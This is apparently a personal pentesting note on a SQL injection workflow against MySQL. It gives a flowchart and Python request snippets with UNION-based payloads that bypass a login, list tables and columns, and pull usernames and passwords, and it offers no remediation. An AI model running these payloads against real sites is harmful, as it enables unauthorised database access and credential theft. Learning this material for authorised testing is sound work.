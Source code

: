 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/mysql/sqli-flow/","noteIcon":"","created":"2025-04-15T14:11:19.607-04:00"}
---
```





















```mermaid
---
config:
  theme: base
  themeVariables:
    nodeTextColor: "#FFFFFF"
    primaryColor: "#000000"
    lineColor: "#FFFFFF"
    edgeLabelBackground: "#000000"
  gitGraph:
    showBranches: false
---
graph TD
    A[Identify Entry Point] --> B[Identify Database]
    B --> C[Identify Tables]
    C --> D[Identify Columns]
    D --> E[Extract Data]
    E --> F[Handle Collation Issues]
classDef default fill:#000000,stroke:#FFFFFF,color:#FFFFFF;

```

### Explanation and Code Snippets

1. **Identify Entry Point**:
    - The first step is to identify the entry point where SQL injection might be possible. This usually involves finding input fields, URL parameters, or headers that interact with the database.

    ```python
    # Example: Capturing potential SQL injection point
    payload = "' OR '1'='1"
    url = f"http://example.com/login?username=admin&password={payload}"
    response = requests.get(url)
    ```

2. **Identify Database**:
    - Determine the type of database being used. This helps in crafting appropriate payloads for further steps.

    ```python
    # Example: SQL query to identify database type
    payload = "' UNION SELECT @@version, NULL--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

3. **Identify Tables**:
    - Discover the database schema by listing all the tables present. This is done using information schema tables.

    ```python
    # Example: Listing tables in the database
    payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

4. **Identify Columns**:
    - Once the tables are identified, list all the columns within the target table.

    ```python
    # Example: Listing columns in a specific table
    target_table = "users"
    payload = f"' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='{target_table}'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

5. **Extract Data**:
    - After identifying the columns, extract data from the target columns.

    ```python
    # Example: Extracting data from the target table
    payload = "' UNION SELECT username, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

6. **Handle Collation Issues**:
    - If you encounter collation issues, you need to identify the collation of the columns and adjust your query accordingly.

    ```python
    # Example: Handling collation issues
    payload = "' UNION SELECT COLLATION_NAME FROM information_schema.columns WHERE table_name='users' AND column_name='username'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    collation = response.text.strip()

    # Adjust payload with collation
    payload = f"' UNION SELECT username COLLATE {collation}, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

By following these steps, you can systematically identify and exploit SQL injection vulnerabilities in a target application.